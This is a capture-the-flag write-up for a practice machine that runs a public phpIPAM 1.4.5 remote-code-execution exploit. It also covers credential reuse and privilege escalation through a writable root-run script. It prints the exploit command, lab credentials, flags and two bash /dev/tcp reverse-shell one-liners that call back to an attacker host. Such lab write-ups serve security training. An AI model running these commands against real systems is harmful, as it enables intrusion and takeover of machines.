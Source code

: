 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | ssh |
| 80 | http |
| 1337 | waste |



# RECONNAISSANCE
---

If we check the website, we can see this:

![Pasted image 20250403160350.png](../../IMAGES/Pasted%20image%2020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![Pasted image 20250403160417.png](../../IMAGES/Pasted%20image%2020250403160417.png)

That just takes us to a Youtube video:


![Pasted image 20250403160441.png](../../IMAGES/Pasted%20image%2020250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![Pasted image 20250403160543.png](../../IMAGES/Pasted%20image%2020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![Pasted image 20250403160710.png](../../IMAGES/Pasted%20image%2020250403160710.png)

If we answer correctly, we get the following:

![Pasted image 20250403160724.png](../../IMAGES/Pasted%20image%2020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![Pasted image 20250403160828.png](../../IMAGES/Pasted%20image%2020250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![Pasted image 20250403160856.png](../../IMAGES/Pasted%20image%2020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![Pasted image 20250403161633.png](../../IMAGES/Pasted%20image%2020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![Pasted image 20250403162334.png](../../IMAGES/Pasted%20image%2020250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250403162450.png](../../IMAGES/Pasted%20image%2020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![Pasted image 20250403164153.png](../../IMAGES/Pasted%20image%2020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![Pasted image 20250403164331.png](../../IMAGES/Pasted%20image%2020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12 2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![Pasted image 20250403164633.png](../../IMAGES/Pasted%20image%2020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![Pasted image 20250403164709.png](../../IMAGES/Pasted%20image%2020250403164709.png)



